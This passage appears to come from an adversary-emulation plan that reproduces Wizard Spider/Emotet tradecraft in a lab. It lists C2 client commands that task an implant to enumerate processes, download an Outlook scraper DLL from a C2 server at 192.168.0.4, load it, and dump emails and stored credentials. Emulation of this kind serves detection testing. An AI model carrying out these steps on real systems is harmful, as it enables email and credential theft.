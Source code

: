 Wizard Spider then downloads and loads an Outlook scraper DLL using the `LoadLibraryW` and `GetProcAddress` functions. 

Lastly, Wizard Spider executes the Outlook-scraper to dump emails and contacts.

One of the emails contains credentials for another user, bill@oz.local, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---

### :biohazard: Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
[Source Code](hostdiscovery.cpp#L172)


Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
[Source Code](comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
[Source Code](loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.

```bash
# Emotet has been observed leveraging a module that scrapes email data from Outlook.[3]

# Emotet has been observed leveraging a module that retrieves passwords stored on a system for the current logged-on user. [7][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
[Source Code](outlook.cpp#L64)
